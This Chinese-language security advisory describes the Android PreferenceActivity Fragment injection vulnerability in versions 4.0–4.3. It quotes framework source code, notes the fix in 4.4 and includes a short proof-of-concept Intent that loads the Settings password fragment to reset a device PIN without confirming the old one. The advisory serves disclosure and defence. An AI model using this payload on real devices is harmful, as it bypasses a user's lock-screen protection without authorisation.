

- 漏洞类型：本地提权漏洞
- 威胁等级：中
- 漏洞来源：Roee Hay
- 影响版本： Android 4.3 Android 4.2 Android 4.1 Android 4.0
漏洞描述
IBM的安全研究人员Roee Hay公布了一个Android框架层Fragment注入的漏洞[1]，所有继承了PreferenceActivit类并将该类置为exported的应用都受到该漏洞的威胁。
在Android系统中，构成UI的组件是Activity类。Activity构成了一个具备某种功能的屏幕如如浏览器书签。Fragment是子Activity，是UI的一部分，可以在不同的Activity里面重用，而且可以动态加载。
PreferenceActivity[2]是Android框架提供的基类，用来显示用户Preference的层次结构，Preference与PreferenceFragment相关联。PreferenceActivity有两个重要的Intent extras：
android:show_fragment，用来告诉PreferenceActivity要先显示哪些fragmentandroid:show_fragment_arguments，表示Activity获得的参数
Fragment的动态加载过程如下：
protected void onCreate(Bundle savedInstanceState) {
super.onCreate(savedInstanceState);
...
String initialFragment = getIntent().getStringExtra(EXTRA_SHOW_FRAGMENT);
Bundle initialArguments = getIntent().getBundleExtra(EXTRA_SHOW_FRAGMENT_ARGUMENTS);
...
if (savedInstanceState != null) {
// We are restarting from a previous saved state; used that to
// initialize, instead of starting fresh.
ArrayList<Header> headers = savedInstanceState.getParcelableArrayList(HEADERS_TAG);
if (headers != null) {
mHeaders.addAll(headers);
int curHeader = savedInstanceState.getInt(CUR_HEADER_TAG,
(int) HEADER_ID_UNDEFINED);
if (curHeader >= 0 && curHeader < mHeaders.size()) {
setSelectedHeader(mHeaders.get(curHeader));
}
}
} else {
if (initialFragment != null && mSinglePane) {
// If we are just showing a fragment, we want to run in
// new fragment mode, but don't need to compute and show
// the headers.
switchToHeader(initialFragment, initialArguments);
if (initialTitle != 0) {
CharSequence initialTitleStr = getText(initialTitle);
CharSequence initialShortTitleStr = initialShortTitle != 0
? getText(initialShortTitle) : null;
showBreadCrumbs(initialTitleStr, initialShortTitleStr);
}
} else {
// We need to try to build the headers.
onBuildHeaders(mHeaders);
// If there are headers, then at this point we need to show
// them and, depending on the screen, we may also show in-line
// the currently selected preference fragment.
if (mHeaders.size() > 0) {
if (!mSinglePane) {
if (initialFragment == null) {
Header h = onGetInitialHeader();
switchToHeader(h);
} else {
switchToHeader(initialFragment, initialArguments);
}
}
}
}
}
public void switchToHeader(Header header) {
if (mCurHeader == header) {
// This is the header we are currently displaying. Just make sure
// to pop the stack up to its root state.
getFragmentManager().popBackStack(BACK_STACK_PREFS,
FragmentManager.POP_BACK_STACK_INCLUSIVE);
} else {
if (header.fragment == null) {
throw new IllegalStateException("can't switch to header that has no fragment");
}
int direction = mHeaders.indexOf(header) - mHeaders.indexOf(mCurHeader);
switchToHeaderInner(header.fragment, header.fragmentArguments, direction);
setSelectedHeader(header);
}
}
private void switchToHeaderInner(String fragmentName, Bundle args, int direction) {
getFragmentManager().popBackStack(BACK_STACK_PREFS,
FragmentManager.POP_BACK_STACK_INCLUSIVE);
Fragment f = Fragment.instantiate(this, fragmentName, args);
FragmentTransaction transaction = getFragmentManager().beginTransaction();
transaction.setTransition(FragmentTransaction.TRANSIT_FRAGMENT_FADE);
transaction.replace(com.android.internal.R.id.prefs, f);
transaction.commitAllowingStateLoss();
}
public static Fragment instantiate(Context context, String fname, Bundle args) {
try {
Class< ?> clazz = sClassMap.get(fname);
if (clazz == null) {
// Class not found in the cache, see if it's real, and try to add it
clazz = context.getClassLoader().loadClass(fname);
sClassMap.put(fname, clazz);
}
Fragment f = (Fragment)clazz.newInstance();
if (args != null) {
args.setClassLoader(f.getClass().getClassLoader());
f.mArguments = args;
}
...
}
}
Android的各个应用是相互独立的，以各自的权限运行与各自的沙盒之中，一般不能访问其它应用的敏感数据，但可以通过Intent相互通信，当组件属性exported="true"时，就可以被其它应用可以调用。一个恶意的应用可以调用其它应用exported的PreferenceActivity并为其提供构造的特定数据， 如果数据没有正确处理或未经目标应用的验证，就可以绕过权限限制任意加载内部Fragment

测试方法
忽略PIN码直接修改之：
Intent intent = new Intent();
intent.setFlags(Intent.FLAG_ACTIVITY_CLEAR_TASK);
intent.setClassName("com.android.settings", "com.android.settings.Settings");
intent.putExtra(":android:show_fragment", "com.android.settings.ChooseLockPassword$ChooseLockPasswordFragment");
intent.putExtra("confirm_credentials", false);
startActivity(intent);
解决方案
Google在 Android 4.4 KitKat 里面修正了该问题[3]，引入了PreferenceActivity.isValidFragment函数，要求用户重写该函数验证Fragment来源正确性
参考资料
[1] http://securityintelligence.com/new-vulnerability-android-framework-fragment-injection
[2] /frameworks/base/core/java/android/preference/PreferenceActivity.java